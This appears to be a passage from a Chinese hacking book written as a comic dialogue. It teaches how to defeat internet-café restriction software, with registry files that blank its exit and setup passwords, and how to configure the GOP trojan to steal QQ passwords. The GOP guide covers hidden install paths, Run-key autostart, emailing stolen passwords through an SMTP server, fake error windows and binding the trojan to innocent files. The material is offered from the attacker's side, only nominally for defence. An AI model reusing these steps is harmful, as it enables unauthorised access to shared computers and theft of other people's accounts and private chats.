- 运行设置程序密码：运行“网吧管理专家”设置程序所需要的密码。
- 历史记录密码：查看“网吧管理专家”历史记录所需要的密码。
- 退出密码：退出“网吧管理专家”各子程序所需要的密码。
- DownloadPassword：将下载的软件保存到本地硬盘时所需要的密码。
- VisitDiskPassword：进行 Internet 属性设置所需要的密码。

- 第三步（可选）：如果你觉得此方法只适合一台或二、三台客户机有效，对几十台，甚至上百台的客户机操作起来就非常麻烦了，那再讲述一种快速的方法。

用每台客户机去访问服务器的“网吧管理专家”安装程序进行重新安装，在安装过程中，会在“选择安装客户端版 / 服务器版”和该软件安装路径之间，多出二行文字：

- 系统检查到您曾经安装过这个软件，是否保留以前的系统设置？
- 保留以前的系统设置

将它设置为：“取消保留以前的系统设置”。当安装完成后，以前“网吧管理专家”的参数设置全部被替换成了默认值。

- 第四步：重新设置“网吧管理专家”的各项密码就行了。

## 1.4.3 类军限制

> “但是如果限制程度不相同，比如说有些管理软件限制得比较厉害点的话，那这些还有没有得发挥呢？”阿瓜颇有些担心。

“那我就给你说说具体的限制好了！你再对症下药，这个总会吧！”榕哥摇摇头，心想，这 MM 的机片要拿到手还真是不容易啊。

##### 对于初级限制

同时按“WIN”键（飘着微软小旗的那个键）和“D”键，就会刷新桌面。在美萍下的桌面实际上是美萍指定的一个目录，而原桌面则被隐藏了，刷新是对原桌面的刷新，只要你不切换其他窗口，“我的电脑”等将会一直存在于桌面之上。你要做的是：打开我的电脑，然后再点向上，就可以把桌面以窗口的形式打开了（因为硬盘是被屏蔽掉的，当我们打开我的电脑时将什么都看不见）。此时你要做的是新建一个文本文档输入这么几行：

```reg
REGEDIT4

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer]
"NoDrives"=dword:00000000
```

另存为随便一个 REG 文件就可以了（REGEDIT4 和后面的输入之间必须空一行，下同），之后你要做的就是导入它（理解为运行它也行），等你再次开机时打开我的电脑就会看见那可爱的 C: 盘呀 D: 盘呀就又回来了。当然你如果不想看见美萍也行，只要输入如下内容并存为 REG 文件就可以了：

```reg
REGEDIT4

[HKEY_LOCAL_MACHINE\Software\Mipsoft\Smenu]
"exitpassword"="1"
"setuppassword"="1"
"quitpassword"="1"
```

继续导入它，重启后你就放心大胆地退出美萍吧，此时它的密码可是什么都没有哟，但愿你不要干坏事。

此外我们还可以通过“查找”来绕过美萍（自然是用“WIN”+F 啦）。网吧老板们大都因为屏蔽了硬盘而对热键大开绿灯。为什么会这样呢？其实原因也是再简单不过了，因为你在搜索栏内找不到本地硬盘，如果你选择“我的电脑”来进行查找如“COMMAND”等的文件时一定会被告知“找不到”。但是他们又错了，搜索栏中是可以输入的。在上面如输入“C:”，然后再找“COMMAND”，哈，找到的可就是一大堆的东西了。此时运行 `COMMAND.COM` 是可以进入 DOS，打开 `WINDOWS\COMMAND` 就是用窗口形式打开此目录的。这样一来，又可以对本地硬盘进行访问了。

##### 对于中级限制

因为禁止导入 REG 文件，所以我们无法通过导入注册表的方法来实现访问；又由于禁止使用 WINZIP，所以此方法也失灵；禁用“查找”，所以……但不要认为就真的没办法绕过去了，其实方法多多。

嘿嘿……我们要用的还是 IE。在 IE 地址栏中用中文输入“桌面”回车。如此一来我们熟悉的桌面又以窗口的形式打开啦。现在我们要做的和上面要做的一样：新建一个文本文档，然后输入这么一行：`C:\COMMAND.COM`。当然此时我们就得把它另存为批处理文件啦，然后运行它。哈，我们又跳入到 DOS 了（注意的是此时是没办法用 REGEDIT 来修改注册表的，如果美萍是 6.5 版以上的版本，注册表修改器将会是一闪而过，我们是无法使用的），跳入 DOS 后一般是没有限制的……

##### 对于高级限制

开机屏蔽 F4、F5、F8 键，使网友不能从开机时下手；屏蔽 MS-DOS，不能使用批处理文件和进入 MS-DOS 方式（也不能玩 DOS 游戏……）；屏蔽鼠标右键菜单，不能新建文件。估计此时网吧里应该用的是超级兔子中的安全限制全选 + 屏蔽本地硬盘 + 美萍来限制大家的。但这也是挡不住的！

和在中级限制中说的一样，在 IE 的地址栏中输入如“我的文档”或“桌面”等，“我的文档”和“桌面”将会以窗口的形式打开。别忘了此时你只有一个左键，打消你通过建立文件来绕过美萍的念头吧。此时你要做的工作只有一个：查找。找什么呢？找一个快捷方式的文件，找到后点上它。不知你注意过 IE 没有？工具栏上是有一个属性按钮，点属性，我们将看见有“目标”和“起始位置”，注意一下起始位置吧，它是本地硬盘上的一个目录；好！接下来点“查找目标”，哦，是不是又到了本地硬盘上了？不过这个目录是不是很眼熟？对了，就是刚才那个目标目录。好了，现在我们已经达到了对本地硬盘进行访问的目的了。什么？你的……

QQ 的聊天记录不能 DEL 掉？唉，别按 DEL 键呀，它可是有可能被屏蔽掉了哟。点 IE 上的删除吧（就是那个红叉叉）。怎么？认为权限太少？别忙呀，解铃还需系铃人。根据大家的习惯来看，它不是在 C 盘的 TOOLS 下就是在 D 盘的 TOOLS 文件夹下。其实你也别想要更多的权限了。大家想做的不就是想把自己的上网记录删除么？我告诉你他们的地址不就完了？不用那么麻烦的。

`C:\Program Files\QICQ\你的号码文件夹`（也可能是 `C:\Program Files\Tencent\你的号码文件夹`），这是 QQ 的聊天记录。  
`C:\Windows\Cookies`，你的许多秘密就在这里了。

> “最后给你总结一下，够仁至义尽了吧！”榕哥咬牙切齿。

### 傻瓜广绕

- 确认本地禁止导入 REG 文件的方法：看看 REG 文件是不是只能以文本文件打开，如是的话则被屏蔽。
- 确认禁用组合键：用 QQ，把 QQ 的热键设为 ALT+Z，按下 ALT+Z 看看 QQ 能否弹出，如不能，则组合键被禁用。
- 确认屏蔽鼠标右键菜单：屏蔽了就是无论在桌面或目录下点右键都不会有菜单弹出。

“说了这几点，我怎么总觉得好像……说不清啦，好像太少了，还是……”阿瓜咕噜着。

这小子还真是会挑，真精。榕哥心想。

“再补充几点！”

### 阿瓜公谈

- 还可以通过网络邻居。把目录设为完全共享，通过网络邻居访问本机，之后……当你以网络邻居的身份访问本机时，一切的权限限制就都没啦。
- 桌面其实是本地硬盘上的一块区域（是 `C:\WINDOWS\DESKTOP` 目录）。
- 网吧里的 QQ 一定有一份备份在本地硬盘上的，而且一般会在 D 盘如 Tools、Downloads 或 Backup 之类的目录下。真心去找找，找到后重新安装，把原来的 QQ 覆盖掉后，久别的 IE 又回来了。

## 第二章

- 4、如进入 DOS 模式，劝你最好还是多用内部命令，少用外部命令。因为外部命令是可改名的，况且杀伤太大，一不小心……
- 5、网吧里最好不要用木马，一来是我不赞成，二来是很容易被对方发现，如果你因此多了两只熊猫眼，可别怪我没提醒你！
- 6、如果你找不到那些快捷方式，就去点 IE 的最左上角，可以拉一个快捷方式的，改改起始位置后就可以了。

我插一句：  
“这个 DOS 的内部命令和外部命令……”  
“你又不知道？”  
“你不说我怎么知道！”阿瓜理直气壮地。  
“这些不属于这次讨论的范畴，自己去找别的书来参详。”很明显，榕哥已经很不耐烦了。  
“哦……”阿瓜也不敢再吱声了。

“好了，现在可以了吧！”  
“差不多了！真是厉害！”阿瓜很满足地说。

“那当然了。这些可是经典版的莲花宝典，这几招堪称从古至今最阴险恶毒的精髓啦。哈哈……”

### 1.5 剧情小花絮

“那我们的交易可以兑现了吧？快把那张照片给我！”榕哥伸手就要去抢。  
“你真的确定你要吗？”阿瓜一阵阴笑。  
“那当然，不然我这么辛苦教你这个白痴都是为了什么？”这时候，榕哥的手距离那张相片只有 0.001 公分了。

瞬间，榕哥发现，阿瓜突然消失了。他管不了那么多，先把相片拿到手再说。他眼疾手快，一把到手——果然不愧是少林弟子。后面的事太残酷了。  
他瞪眼一看，眼珠子差点没爆出来。那个哪里是美女，分明就是远古时代侏罗纪的霸王龙。

“我的天，我这么辛苦地奋斗了这么久，耐心教一个白痴，就是这个回报吗？天哪~~~”榕哥他“老泪纵横”。  
榕哥仰天长啸，顷刻间消失于万千网络间。  
“还会回来吗………………？”  
“当然会！”  
“WHY?”  
…………



## 篇……壹

## 让\我欢喜\让我忧

——QQ 攻防

## 第二章 让我欢喜让我忧

—— QQ 攻防


阿瓜在上网后，当然也和其他人一样要聊天了。这个世界，无论你做什么工作，也无论你爱好什么，只要上网，都会接触到网络即时通讯工具。自从 Mirabilis 公司推出 ICQ 以来，即时通讯工具层出不穷。在中国，腾讯公司的 QQ（原名 OICQ）以其贴近用户的设计、良好的易用性、强大的功能、稳定高效的系统运行，赢得了最为广大的用户群，坐上了国内即时通讯工具的头把交椅。阿瓜这个网络白痴也不可避免地和 QQ 碰面了。

对阿瓜来说一切都是那么新鲜，慢慢地他发现 QQ 的诸多好处。QQ 简直成了他的第二生命。但是时间久了，阿瓜开始提心吊胆地过活，因为阿瓜的朋友总是在向他诉苦：

“阿瓜，我死啦，我的账号密码被人盗走了，我的 flydancing 怎么办啊！！呜……”；

“阿瓜啊，我的聊天记录居然被人窥视，我一定要和那人拼命……”；

“阿瓜，救命啊，我的好友名单被人全部删除……”

阿瓜害怕有一天这种事会找上他的门，把他的第二生命抹杀，到时他该怎么办？求生不能，求死不得啊。就算他不在乎自己，也该好好为那些苦心经营的 MM 们着想嘛。没有我的日子里，她们会不会想我哩？（保证不会！）可是人算不如天算，可怕的一天到来了。那天，阿瓜正在和 MM 甜蜜地聊天，突然他频繁收到消息，一条接一条，阿瓜简直束手无策，骂了几百次“妈妈咪”——of course，无补于事。最终他的电脑蓝屏，死机……Game Over 了。阿瓜眼睁睁地看着那个心仪的 MM 从网上消失，阿瓜那个气啊！就想把那个恶人抓来狂扁一顿……再踩上一脚，叫他永世不得翻身。当然，首先要让他先教会自己这一招，好去耍耍别人，顺便把自己勾搭 MM 的几率往上提一提——别人都 NG 了，自己的机会不就大大地增加了吗？

正在他怒发冲冠的时候，榕哥出现了。他看着阿瓜气得扭曲变形的脸，一脸坏笑问：“怎么啦？小朋友？要帮忙否？”

阿瓜气急败坏地说：“我被人白……”  
“了！！！！！！！”  
“是黑了吧~~~”  
“差不多啦~~~”

榕哥慢悠悠地说：“呵呵，不要着急，让本天才帮你分析分析。书上说 QQ 的攻击方法大概可以分为以下三种。”说着很得意地掏出一本烂得不能再烂的书：葵花宝典？？！！！^o^ 用他纤细的小手指着上面说：“密码的本地、远程窃取与破解；本地信息的查看，包括好友名单、聊天记录等；恶意消息的发送，呵呵……”榕哥看着阿瓜一副极其崇拜的样子，故意卖了卖关子。

“你别急啊，听我慢慢道来，嗯…是不是让我…………？嗯……”  
“什么？”阿瓜的脸上充满迷惘，突然他意识到什么，以百米的速度冲向自己的床。一阵翻箱倒柜后，阿瓜从角落找到自己一直舍不得吃的旺仔牛奶，一阵思想斗争，他忍痛割爱说道：“榕哥，来，先解解渴。”

榕哥接过牛奶，慢慢喝了一口，说道：“Let’s go。先让你看 QQ 的防范方法，俗话说嘛，害人之心不可有，防人之心不可无嘛！”

### 2.1 就地取材——本地密码窃取

现在要说的这一类攻击是由密码本地窃取工具来实现的。在机器被植入这类工具之后，每当你打开 QQ 登录的时候，你的账号、密码就在你输入它们的同时被记录下来，储存在本地硬盘上，甚至在适当的时机通过 E-Mail 传到攻击者的信箱里去。当攻击者修改了密码，而你又恰巧没有申请密码保护的话，say bye bye 吧，孩子，你的 QQ 靓号就永远地离开了你。尤其值得关注的是你那一群日思夜想的 MM。（虽然你总说：“只愿君心似我心。”但人家可是对无数的人专一，嘿嘿。）就算你走运，哪天一个不小心通过密码保护找回密码，你的好友名单、聊天记录也可能早已裸露在匪人的眼中！

如果你是在家或是办公室里一人使用一台电脑，则无甚大虑。但若是几人共用一台电脑或是在网吧上网，且你的聊天朋友和聊天记录属那种个人隐私级的话（哪一种？某些国人专以探听他人隐私为己任，君不见街头巷尾的大嫂大婶们交头接耳、窃窃私语之状吗？），你可要当心了。因为稍懂“复制”“粘贴”的初手也能窃取你的信息。哎，现在 QQ 上的好多 MM 对聊天精辟异常，游刃有余，却对自己电脑的 CPU 型号、操作系统等基本常识一无所知。

我们知道 QQ 登录对话框中有个“下次登录时不出现该提示框”的选项，若是你选了它，则别人可以兵不血刃、堂而皇之地登录到你的账号下，这样你的密码、好友名单、聊天记录就一丝不挂了（用词好像不太文明，见谅）。那不选就是了，但有人可以进入以你 QQ 号为名的文件夹查看一个名叫 friends.v30 的文件，随便一个编辑文字的程序都能看到你的好友名单，这样他就知道你正与哪位 MM 或是 GG 聊天了。另外，更高级一点的就是利用一个叫做 OicqReader 的软件，只要选好 QQ 的安装路径，则 QQ 安装目录下的所有 QQ 账号都在劫难逃，好友名单和聊天记录就都很方便地展示在人侵者的眼皮底下了。

虽然账号掉了可重新申请一个，但一个个地再重新添加好友，并且与好友以前美好而温馨的谈话记录一去不复还的感受，想想吧，一个字——痛。另外，你的 QQ 号码从靠前的如 12345 变成 987654321 的心情，我想也不会好到哪里去吧！很多人就是冲着这较前的号码而来的，这在 QQ 中代表着一种资历。

> “那可要怎么办啊，555……我的小花、小雪、小甜甜~”阿瓜大哭……“有我在，你有什么好怕的，为师现在就传你——菜瓜大法！”  
> “现在网上流传的密码本地窃取工具多得比大米还多，我就随便说两个，其它的也就大同小异啦。”

“先来了解一下 GOP，知道不？”  
“好像是那个什么麻辣鸡丝，是不是？”阿瓜说。  
“不是啦，是 GOP，not GTO，再说人家那个要也是麻辣教师，什么鸡丝？”

#### 2.1.1 QQ 木马——GOP 的使用

> 【傻瓜改密码】

GOP（就是 Get OICQ Password 啦）是木马工具中比较弱的一个。腾讯公司官方网站的下载中心中，防 GOP 木马软件 KILL.GOP（http://www.tencent.com/download/?killgop.shtml）是唯一提供的安全工具——所以不想死就 down 吧。它的存在引起了广泛的关注。


所谓“知己知彼，百战不殆”，要抵制 GOP 的攻击，就要先了解它运作的全过程。下面将以 Step By Step 的形式，从攻击者的角度（你很喜欢做受害者吗？）为你展现安装 GOP 的步骤。

### ◎ GOP 的安装

GOP 的最新版是 1.2，程序包的文件名一般为 gop12.zip。解压缩后释放出三个可执行文件：

- **EditGOP.exe** —— 服务器端编辑程序。
- **gop.exe** —— 服务器端。
- **gopsplit.exe** —— 简单的结果整理工具，剔除重复的号码。



2-1-1 EditGOP 的主界面

运行 EditGOP.exe（如图 2-1-1），对 GOP 进行设置（不配置的话，对不起，可远观而不可亵玩也，你也不用一直想着天上掉下个 default 让你吃香喝辣的）。

##### 第一步 设置服务端

点击“浏览”按钮，在打开的对话框中，选择你要修改配置的 GOP.exe（如图 2-1-2）。



2-1-2 GOP.exe

### 第二步 一般设置（如图 2-1-3）

这种东西，当然是尽量不要让人发现的好嘛，学着点：

- 复制到定义目录——GOP 的隐藏地点。可以设置到 Windows 及其子文件夹里面运行，也可以直接运行。
- 运行后删除源文件——易被发现，不推荐使用。
- 服务文件名、钩子文件名——用以提高隐蔽性。将存在于先前定义的文件夹下。
- 定义注册表键名——GOP 运行以后，将在注册表的 Run 里（具体位置 HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run）添加自己的键值，让它开机的时候自启动。



2-1-3 一般设置



2-1-4 邮件设置

### 第三步 邮件设置（如图 2-1-4）

- SMTP——邮件发送服务器设置。需要填写一个可用的 SMTP 服务器，用它发送携带密码的邮件。注意，不能使用带有 SMTP 验证的服务器。
- 发送邮箱——根据设定的 SMTP 服务器来填写。比如对应 smtp.sina.com.cn，则需要填写该系统的信箱 mail@sina.com。
- 接收邮箱——接收密码邮件的地址。
- 主题标识——密码邮件的主题。
- 检查间隔——设定 GOP 检查密码记录更新情况的周期。如果记录已经更新，并且在线，则立即发送密码邮件。
- 邮件优先级——可以设置成低、中、高三档。

所有设置都完成后，可以点击“发送设置”按钮（如图 2-1-5），来测试密码邮件的传送通道是否畅通。



2-1-5 GOP 邮件发送测试

##### 第四步 欺骗窗口

选择该项后，GOP 在第一次运行时将弹出用户自定义的窗口，比如告诉对方软件已过期，需要注册才可以使用；系统资源不足，无法运行；缺少支持文件种种理由，纯粹是为了蒙人。比如：在 Windows 98 下运行 Windows XP 下的 winmine.exe（就是我们熟悉的“扫雷”），将会弹出（如图 1-1-6）的对话框，提示缺少支持文件。


2-1-6 出错对话框

我们完全可以利用欺骗窗口功能来模拟这个对话框（如图 2-1-7）。你可以自行在日常的应用中发现类似的对话框，对于一般的菜鸟来说，这具有很强的隐蔽性。

### 第五步 文件绑定（如图 2-1-8）





可以把 GOP 和宿主（寄生虫知道吧，差不多就是一个意思啦）文件，比如自解压软件、Flash、开玩笑的小程序连接起来，这样运行目标文件时会同时启动 GOP，做到神不知鬼不觉。

在设置完“宿主文件”“文件图标”（只能是 16 色）之后，点击“捆绑”按钮生成 GOP 木马。

##### 第六步 生成木马

在第五步中，可以通过“捆绑”按钮生成木马。运行就可以完成安装。点击界面下方的“保存”按钮就可以按照设置安装完成。

注意：在安装的过程中，在不需要的情况下第四步和第五步是可以省略的。关于 GOPSplit.exe，它的功能完全可以通过 GOPEdit 实现，使用方法就不介绍了。你还可以参照程序包中的 readme 来取得更多的信息。

